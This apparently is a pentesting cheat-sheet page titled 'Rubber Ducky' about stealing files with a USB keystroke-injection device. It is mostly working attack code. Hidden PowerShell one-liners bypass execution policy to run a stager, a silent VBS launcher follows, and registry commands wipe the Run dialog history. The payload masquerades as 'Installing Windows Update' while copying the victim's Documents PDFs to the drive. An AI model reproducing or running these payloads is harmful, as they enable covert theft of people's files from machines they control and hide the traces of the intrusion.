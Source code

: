 ```yaml
---
title: Rubber Ducky
category: Exploitation
order: 100
---
```


> **Find the Rubber Ducky’s drive letter** 

{% highlight powershell %}
for /f %d in ('wmic volume get driveletter^, label^|findstr “DRIVENAME”'') do @set DK=%d 
{% endhighlight %}


> **Execute the Stager** 

{% highlight powershell %}
powershell -NoP -NonI -W Hidden -Exec Bypass " $up = Get-WMIObject Win32Volume | ? { $_.Label -eq 'DriveName' } | select name; cd $uP.name; .\d.cmd"
{% endhighlight %}

> **Clean up run history** 

{% highlight powershell %}
Remove-ItemProperty -Path 'HKCU:\Software\Microsoft\Windows\CurrentVersion\Explorer\RunMRU' -Name '*' -ErrorAction SilentlyContinue
{% endhighlight %}

> **Run the Program and Clean-up**

{% highlight powershell %}
powershell -NoP -NonI -W Hidden -Exec Bypass "rp -Path 'HKCU:\Software\Microsoft\Windows\CurrentVersion\Explorer\RunMRU' -Name '*' -ErrorAction SilentlyContinue; $up = Get-WMIObject Win32Volume | ? { $_.Label -eq 'DN' } | select name; cd $uP.name; .\d.cmd"
#Note: Runtime max is 260 characters - use aliases to reduce
#Note: _ is Drive Name
{% endhighlight %}

{% highlight powershell %}
#Second Version
powershell "$u=gwmi Win32_Volume|?($_Label -eq'_')|select name; cd $uname;.\d.cmd"
#65 Character Version
powershell".((gwmi win32_volume -f 'label=''_''').Name+'d.cmd')"
#Note: Runtime max is 260 characters - use aliases to reduce
#Note: _ is Drive Name
#Note: The shorter versions don't change the directory
{% endhighlight %}

> **d.cmd: Stager 1** 

{% highlight powershell %}
@echo off
REM start /MIN e.cmd
@cls
start /b /wait powershell.exe -nologo -WindowStyle Hidden -sta -command "$wsh = New-Object -ComObject WScript.Shell;$wsh.SendKeys('{CAPSLOCK}');sleep -m 250;$wsh.SendKeys('{CAPSLOCK}');sleep -m 250;$wsh.SendKeys('{CAPSLOCK}');sleep -m 250;$wsh.SendKeys('{CAPSLOCK}')"
cscript i.vbs e.cmd
@exit
#Note: Powershell portion flashes the CAPS lock button to demonstrate that the first stage has completed successfully
{% endhighlight %}

> **i.vbs: Stager 2** 
{% highlight vb %}
CreateObject("Wscript.Shell").Run """ & WScript.Arguments(0) & """", 0, False
{% endhighlight %}

> **e.cmd: Payload** 

{% highlight powershell %}
@echo off
@echo Installing Windows Update

REM Delete registry keys storing Run dialog history
REG DELETE HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Explorer\RunMRU /f

REM Creates directory compromised of computer name, date and time
REM %~d0 = path to this batch file. %COMPUTERNAME%, %date% and %time% pretty obvious
set dst=%~d0\slurp\%COMPUTERNAME%_%date:~-4,4%%date:~-10,2%%date:~7,2%_%time:~-11,2%%time:~-8,2%%time:~-5,2%
mkdir %dst% >>nul

if Exist %USERPROFILE%\Documents (
REM /C Continues copying even if errors occur.
REM /Q Does not display file names while copying.
REM /G Allows the copying of encrypted files to destination that does not support encryption.
REM /Y Suppresses prompting to confirm you want to overwrite an existing destination file.
REM /E Copies directories and subdirectories, including empty ones.

REM xcopy /C /Q /G /Y /E %USERPROFILE%\Documents\*.pdf %dst% >>nul

REM Same as above but does not create empty directories
xcopy /C /Q /G /Y /S %USERPROFILE%\Documents\*.pdf %dst% >>nul
)

REM Blink CAPSLOCK key
start /b /wait powershell.exe -nologo -WindowStyle Hidden -sta -command "$wsh = New-Object -ComObject WScript.Shell;$wsh.SendKeys('{CAPSLOCK}');sleep -m 250;$wsh.SendKeys('{CAPSLOCK}');sleep -m 250;$wsh.SendKeys('{CAPSLOCK}');sleep -m 250;$wsh.SendKeys('{CAPSLOCK}')"

@cls
@exit
{% endhighlight %}


> **Further References** 

https://www.hak5.org/episodes/season-21/hak5-2112-stealing-files-with-the-usb-rubber-ducky
https://github.com/hak5darren/USB-Rubber-Ducky/wiki/Payloads
https://github.com/hak5darren/USB-Rubber-Ducky/wiki/My-first-payload
https://www.hak5.org/blog/hak5/stealing-files-with-the-usb-rubber-ducky-usb-exfiltration-explained
http://www.pentestingshop.com/pentesting/make-your-own-usb-rubber-ducky-using-a-normal-usb-stick/
https://forums.hak5.org/index.php?/topic/34950-how-to-make-a-usb-rubber-ducky-using-a-normal-usb-stick/
